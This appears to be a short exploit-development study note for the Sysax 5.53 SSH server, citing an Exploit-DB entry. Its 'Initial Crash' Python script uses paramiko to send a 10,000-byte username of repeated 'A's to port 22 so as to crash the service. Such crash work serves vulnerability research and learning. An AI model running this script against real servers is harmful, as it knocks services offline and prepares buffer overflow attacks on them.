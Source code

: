 # Sysax 5.53

Downloaded from: https://www.exploit-db.com/exploits/18535
Vulnerable function: Settings -> Enable SSH port

## Initial Crash

import paramiko,os,sys


TARGET_IP = "127.0.0.1"
TARGET_PORT = 22
target = (TARGET_IP, TARGET_PORT) 


CRASH_LEN = 10000  # change me

payload = b"A" * CRASH_LEN

transport = paramiko.Transport(target)	

transport.connect(username = payload, password = "test")	
transport.close()
